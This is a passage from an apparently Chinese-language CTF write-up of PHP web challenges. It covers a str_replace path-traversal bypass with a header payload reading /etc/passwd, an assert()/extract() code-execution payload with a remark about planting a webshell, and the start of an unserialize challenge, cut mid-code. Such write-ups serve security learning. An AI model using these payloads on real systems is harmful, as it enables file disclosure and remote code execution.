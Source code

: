 ```php
print_r(str_replace("../","","....//"));
// ../
```

### payload

```
Accept-Language: .//....//....//etc/passwd
```



## 10 - Anticipation

> 未正确 exit

```php
extract($_POST);

function goAway() {
    error_log("Hacking attempt.");
    header('Location: /error/');
}

if (!isset($pi) || !is_numeric($pi)) {
    goAway();
}

if (!assert("(int)$pi == 3")) {
    echo "This is not pi.";
} else {
    echo "This might be pi.";
}
```

该代码的大致意思是输入一个 `pi`，验证是否为数字类型，非数字将重定向到错误页面。

`assert()` RCE 可以参考这篇文章 [assert引起的代码注射](https://www.cnblogs.com/sn00py/p/5925944.html)，另外`extract()` 很容易引起变量覆盖

### payload

```
POST
pi=phpinfo()
```

PS:这里的 `phpinfo` 不太好看到，写个 `webshell` 进去再看。



## 11 - Pumpkin Pie

> unserialize

```php
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
        $data = $this->loadData($data);
        $this->render($data);
    }

    public function loadData($data) {
        if (substr($data, 0, 2) !== 'O:'
            && !preg_match('/O:\d:\/', $data)) {
```